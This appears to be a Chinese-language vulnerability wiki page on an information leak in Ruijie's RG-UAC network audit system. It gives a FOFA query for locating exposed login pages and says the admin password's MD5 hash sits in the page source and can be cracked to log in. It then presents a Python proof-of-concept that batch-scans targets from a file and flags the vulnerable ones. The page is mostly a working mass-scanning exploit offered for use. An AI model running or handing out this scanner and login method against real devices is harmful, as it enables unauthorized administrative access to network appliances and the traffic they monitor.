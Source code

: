 <languages  />

FOFA
----

     title="RG-UAC登录页面" && body="admin"

F12查看網頁源碼搜索關鍵字`admin`

[400px](檔案:Cnvd1.jpg "wikilink")

使用 password值 md5解密即可登錄。(用戶名admin)

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mFile         >>> ip.txt                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

    def Scan(file_name):
        with open(file_name, "r", encoding='utf8') as scan_url:
            for url in scan_url:
                if url[:4] != "http":
                    url = "http://" + url
                url = url.strip('\n')
                try:
                    POC_1(url)

                except Exception as e:
                    print("\033[31m[x] 请求报错 \033[0m".format(e))
                    continue

    if __name__ == '__main__':
        title()
        file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
        Scan(file_name)

參考
----

<https://mp.weixin.qq.com/s/LbSPzt__mKdNN83RhJ2bwA>